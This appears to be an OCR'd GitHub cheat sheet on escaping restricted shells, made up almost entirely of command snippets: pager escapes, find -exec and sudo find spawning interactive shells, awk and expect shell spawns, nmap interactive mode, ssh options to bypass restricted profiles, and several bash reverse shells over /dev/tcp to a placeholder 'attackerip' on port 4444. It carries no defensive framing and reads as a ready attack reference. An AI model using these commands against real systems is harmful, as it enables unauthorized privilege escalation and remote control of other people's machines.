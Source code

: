 ## use pagers less, more, or programs like man that use less or more by default
```
!/bin/sh, !/bin/zsh, try other shells!?!?
!/bin/bash
!bash
```

## find
use find command’s exec parameter for code execution (returns shell)
```
sudo find /home -exec sh -i \;
find /var/log -name messages -exec /bin/bash -i \;
```

## use awk command
```
awk 'BEGIN {system("/bin/sh")}'
```

## use expect command
```
expect
spwan sh
sh
```

## use tee command to create a script in scenarios where text editors aren't available
```
echo "bash -i" | tee script.sh
```

## use nmap command
```
nmap --interactive
nmap> !sh
```

## use ssh with the following options to escape restricted shell 
```
ssh user@IP -t "bash --noprofile"
ssh user@IP -t "/bin/sh"
```

## Bash Shell:
```
exec /bin/bash 0&0 2>&0
```
Or:
```
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```
Or:
```
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
while read line 0<&5; do $line 2>&5 >&5; done
```
